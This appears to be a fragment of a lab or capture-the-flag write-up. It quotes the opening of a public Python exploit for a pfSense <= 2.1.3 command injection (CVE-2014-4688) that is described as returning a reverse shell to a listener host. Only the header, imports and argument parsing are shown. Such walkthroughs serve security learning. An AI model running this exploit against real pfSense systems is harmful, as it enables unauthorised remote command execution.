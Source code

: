 ![](./IMG/13.png)
- After research, there is a exploit code 
```43560.py
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date: 2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
```